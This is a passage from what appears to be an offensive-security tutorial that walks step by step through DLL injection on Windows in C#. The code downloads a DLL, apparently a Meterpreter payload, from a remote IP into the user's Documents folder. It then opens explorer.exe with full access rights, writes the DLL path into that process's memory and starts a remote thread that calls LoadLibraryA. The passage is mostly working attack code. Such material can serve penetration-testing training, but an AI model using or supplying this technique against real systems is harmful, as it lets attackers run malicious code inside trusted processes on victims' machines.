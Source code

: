     ```csharp
    using System.Net;
    ...
    
    String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
    String dllName = dir + "\\met.dll";
    
    WebClient wc = new WebClient();
    wc.DownloadFile("http://192.168.119.120/met.dll", dllName);
    ```
    
    ✔ Downloads the DLL to the **Documents** folder of the current user.
    
4. **Opening the Target Process**
    
    We select **explorer.exe** (a stable process always running under the user context):
    
    ```csharp
    Process[] expProc = Process.GetProcessesByName("explorer");
    int pid = expProc[0].Id;
    
    IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
    ```
    
    - `0x001F0FFF` → Full access rights (PROCESS_ALL_ACCESS).
    - `hProcess` → Handle to `explorer.exe`.
5.  **Allocating & Writing DLL Path into Remote Process**
    
    We allocate memory in the remote process with `VirtualAllocEx` and then write the DLL path into it:
    
    ```csharp
    IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
    
    IntPtr outSize;
    Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
    
    ```
    
    - `0x3000` → `MEM_COMMIT | MEM_RESERVE` allocation.
    - `0x40` → `PAGE_EXECUTE_READWRITE` memory protection.
    - `addr` → Address of the DLL path in the remote process.
6. **Resolving LoadLibraryA**
    
    DLL injection relies on `LoadLibraryA` to load the DLL. We resolve its address from kernel32.dll:
    
    ```csharp
    IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
    ```
    
    Since `kernel32.dll` is loaded at the same base address across all processes (ASLR exceptions aside), the address is valid in the remote process.
    
7. **Creating a Remote Thread**
    
    We finally instruct the target process to run `LoadLibraryA` with our DLL path as an argument:
    
    ```csharp
    IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
    ```
    